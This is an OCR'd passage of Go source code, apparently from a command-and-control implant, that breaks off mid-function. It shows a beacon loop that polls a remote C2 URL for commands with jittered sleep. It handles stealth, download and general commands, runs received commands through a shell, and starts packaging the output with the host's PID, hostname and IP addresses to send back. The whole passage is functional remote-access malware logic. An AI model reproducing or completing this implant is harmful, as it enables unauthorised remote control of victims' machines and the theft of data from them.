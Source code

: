 ```go
            defer cancel()

            // Construct the URL for this implant
            beaconURL := C2_URL + MALEABLE + CLIENT_ID
            
            // Send the GET request to check for commands
            resp, err := retryRequest(ctx, beaconURL, "GET", "", "") // retryRequest handles encryption/decryption
            if err != nil {
                // Handle error (e.g., C2 down)
                return // Go back to sleep
            }

            body, err := io.ReadAll(resp.Body)
            if err != nil {
                // Handle error reading response
                return // Go back to sleep
            }

            command := strings.TrimSpace(string(body))
            if command == "" {
                // No command received, just beaconed
                return // Go back to sleep
            }

            // --- If command received ---
            // Handle special commands like 'stealth_on', 'terminate', etc.
            handleStealthCommand(command, lazyconf)

            // If not a stealth command or stealth is off, execute it
            if !strings.Contains(command, "stealth") && !stealthModeEnabled {
                switch {
                    case strings.HasPrefix(command, "download:"):
                        handleDownload(ctx, command)
                    // ... other special commands ...
                    default:
                        // Execute the general command
                        handleCommand(ctx, command, shellCommand, lazyconf, currentPortScanResults)
                }
            }
        }() // End of the function scope

        // Sleep before the next beacon
        sleepTime := calculateJitteredSleep(baseSleepTime, minJitterPercentage, maxJitterPercentage)
        time.Sleep(sleepTime)
    }
}

// Simplified function to execute a command and send result back
func handleCommand(ctx context.Context, command string, shellCommand []string, lazyconf LazyDataType, resultadosEscaneo map[string][]int) {
    // Execute the command on the system
    output, err := executeCommandWithRetry(shellCommand, command) // executeCommandWithRetry runs cmd, captures output

    // Get system info
    pid := os.Getpid()
    hostname, _ := os.Hostname()
    ips := getIPs() // Get local and maybe global IP

    // Create JSON data with result and info
    jsonData, _ := json.Marshal(map[string]interface{}{
```